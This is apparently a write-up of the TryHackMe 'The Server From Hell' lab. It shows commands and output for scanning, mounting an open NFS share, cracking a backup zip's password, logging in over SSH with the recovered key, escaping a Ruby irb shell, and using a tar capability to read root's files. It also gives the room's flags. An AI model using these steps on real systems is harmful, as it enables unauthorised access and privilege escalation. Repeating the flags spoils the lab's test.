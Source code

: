 # The Server From Hell

Tryhackme The Server From Hell - Linux - Medium

https://tryhackme.com/room/theserverfromhell

## Nmap
```shell
# Nmap 7.93 scan initiated Sun Jun 11 15:46:45 2023 as: nmap -sC -sV -oA nmap/theserverfromhell 10.10.160.231
Nmap scan report for 10.10.160.231
Host is up (0.20s latency).
Not shown: 94 closed tcp ports (conn-refused)
Bug in dicom-ping: no string output.
Bug in ganglia-info: no string output.
Bug in ganglia-info: no string output.
Bug in uptime-agent-info: no string output.
PORT      STATE SERVICE               VERSION
1/tcp     open  tcpmux?
| fingerprint-strings: 
|   NULL: 
|_    550 12345 0000000000000000000000000000000000000000000000000000000
3/tcp     open  compressnet?
| fingerprint-strings: 
|   NULL: 
|_    550 12345 0000000000000000000000000000000000000000000000000000000
4/tcp     open  unknown
| fingerprint-strings: 
|   NULL: 
|_    550 12345 0000000000000000000000000000000000000000000000000000000
6/tcp     open  unknown
| fingerprint-strings: 
|   NULL: 
|_    550 12345 0ffffffffffffffffffffffffffffffffffffffffffffffffffff00
7/tcp     open  echo?
| fingerprint-strings: 
|   NULL: 
|_    550 12345 0fffffffffffff777778887777777777cffffffffffffffffffff00
9/tcp     open  discard?
| fingerprint-strings: 
|   NULL: 
|_    550 12345 0ffffffffff80000088808000000888800000008887ffffffffff00
13/tcp    open  daytime?
| fingerprint-strings: 
|   NULL: 
|_    550 12345 0ffffffff000000888000000000800000080000008800007fffff00
17/tcp    open  qotd?
| fingerprint-strings: 
|   NULL: 
|_    550 12345 0fffff7880000780f7cffff7800f8000008fffffff80808807fff00
....
(more output in nmap folder)
```

After `nmap` scan, I am like what the hell, haha. There are tons of services running on server, and this number `12345` keeps getting repeated, therefore I have checked if there is web service hosted on that port, but no, there wasn't.

Using `nc` we can able to connect and got hint about `NFS`.
```shell
└──╼ $nc server.thm 12345
NFS shares are cool, especially when they are misconfigured
It's on the standard port, no need for another scan
```

```shell
└──╼ $sudo mount -t nfs server.thm:/home/nfs mount -o nolock

└──╼ $cd mount/

└──╼ $ls
backup.zip

└──╼ $cp backup.zip ../

└──╼ $cd ..

└──╼ $zip2john backup.zip > hash.hash
backup.zip/home/hades/.ssh/ is not encrypted!
ver 1.0 backup.zip/home/hades/.ssh/ is not encrypted, or stored with non-handled compression type
ver 2.0 efh 5455 efh 7875 backup.zip/home/hades/.ssh/id_rsa PKZIP Encr: 2b chk, TS_chk, cmplen=2107, decmplen=3369, crc=6F72D66B
ver 1.0 efh 5455 efh 7875 backup.zip/home/hades/.ssh/hint.txt PKZIP Encr: 2b chk, TS_chk, cmplen=22, decmplen=10, crc=F51A7381
ver 2.0 efh 5455 efh 7875 backup.zip/home/hades/.ssh/authorized_keys PKZIP Encr: 2b chk, TS_chk, cmplen=602, decmplen=736, crc=1C4C509B
ver 1.0 efh 5455 efh 7875 backup.zip/home/hades/.ssh/flag.txt PKZIP Encr: 2b chk, TS_chk, cmplen=45, decmplen=33, crc=2F9682FA
ver 2.0 efh 5455 efh 7875 backup.zip/home/hades/.ssh/id_rsa.pub PKZIP Encr: 2b chk, TS_chk, cmplen=602, decmplen=736, crc=1C4C509B
NOTE: It is assumed that all files in each archive have the same password.
If that is not the case, the hash may be uncrackable. To avoid this, use
option -o to pick a file at a time.


└──╼ $john --wordlist=/usr/share/wordlists/rockyou.txt hash.hash 
...
zxcvbnm          (backup.zip)
1g 0:00:00:00 DONE (2023-06-11 16:01) 5.263g/s 86231p/s 86231c/s 86231C/s 123456..cocoliso
```

When we go to `.ssh` folder we will get `flag.txt`

```
└──╼ $cat flag.txt 
thm{h0p3_y0u_l1k3d_th3_f1r3w4ll}
```

##  user flag

```shell
└──╼ $ssh -i id_rsa hades@server.thm
kex_exchange_identification: read: Connection reset by peer
Connection reset by 10.10.160.231 port 22
```

I tried to connect with ssh using `id_rsa`, but can't.


There is a `hint.txt` file where we get hint to scan ports between `2500-4500`. After that we get ssh port on `3333`.

```shell
└──╼ $ssh -i id_rsa hades@server.thm -p 3333
```

After login in ssh, we get some weird shell, I tried using linux commands, but it is giving error, therefore, I have searched error in google and found out that it is ruby shell, and to get linux shell, we have to use `exec` function in ruby.

```shell
irb(main):002:0> whoami
Traceback (most recent call last):
        2: from /usr/bin/irb:11:in `<main>'
        1: from (irb):2
NameError (undefined local variable or method `whoami' for main:Object)
irb(main):003:0> main
Traceback (most recent call last):
        2: from /usr/bin/irb:11:in `<main>'
        1: from (irb):3
NameError (undefined local variable or method `main' for main:Object)
irb(main):004:0> puts "Hello, world!"
Hello, world!
=> nil
irb(main):005:0> 
irb(main):006:0> exec '/bin/sh -i'
$ ls
user.txt
$ cat user.txt
thm{sh3ll_3c4p3_15_v3ry_1337}
```

## root flag

From hints, we executed getcap command.
```shell
$ getcap -r / 2>/dev/null
/usr/bin/mtr-packet = cap_net_raw+ep
/bin/tar = cap_dac_read_search+ep
```

So, using tar we can take system control, therefore from gtfobins, we got exploit for tar.

```shell
$ tar xf /root/root.txt -I '/bin/sh -c "cat 1>&2"'
thm{w0w_n1c3_3sc4l4t10n}
```